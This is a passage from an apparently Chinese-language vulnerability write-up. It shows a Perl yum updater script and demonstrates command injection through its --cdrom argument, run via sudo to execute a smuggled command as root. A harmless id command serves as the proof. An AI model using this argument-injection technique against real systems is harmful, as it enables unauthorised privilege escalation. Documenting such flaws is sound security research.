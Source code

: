 其中 YUM_CLIENT 就是進行更新的指令，部分代碼如下：

**/usr/local/bin/yum-client.pl**

{% highlight perl %}
...
GetOptions (
   'help' => \$help,
   'download_only' => \$download_only,
   'list' => \$list,
   'cache' => \$cache,
   'clearcache' => \$clearcache,
   'cdrom=s' => \$cdrom,
   'appid=s' => \$appid,
   'servername=s' => \$servername,
   'version=s' => \$version,
   'token=s' => \$token);

my $YUM_CMD = "/usr/bin/yum";
if ($cache){
  $YUM_CMD = "$YUM_CMD -C";
}

# if this is based on RHEL 5, change the repository
my $OS = `grep -q 5 /etc/redhat-release && echo -n 5`;
my $LOGFILE = "/home/seos/log/yum-client.log";
my $STATUSFILE = "/home/seos/log/yum-client.status";
my $YUMCONFIG = "/etc/yum.conf";
my $YUMDIFF_FILE = '/home/seos/log/yum.diff';

if ($cdrom){
  if ($OS eq "5"){
     $YUM_CMD = "$YUM_CMD -c $cdrom_path/yum.conf-5";
  }else{
     $YUM_CMD = "$YUM_CMD -c $cdrom_path/yum.conf";
  }
  system("mkdir -p /mnt/cdrom && mount -o loop $cdrom $cdrom_path") == 0 or fdielog($LOGFILE,"unable to mount: $!");
}
{% endhighlight %}

深入觀察 `yum-client.pl` 後可發現在 `--cdrom` 參數上存在 Command Injection，使得攻擊者可將任意指令插入參數內並以 root 身分執行

所以使用如下指令：
{% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ sudo /usr/local/bin/yum-client.pl --cdrom='$(id > /tmp/.gg)'
mount: can't find /mnt/cdrom in /etc/fstab or /etc/mtab
unable to mount: Bad file descriptor at /usr/local/bin/yum-client.pl line 113.


bash-3.2$ cat /tmp/.gg
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
{% endhighlight %}
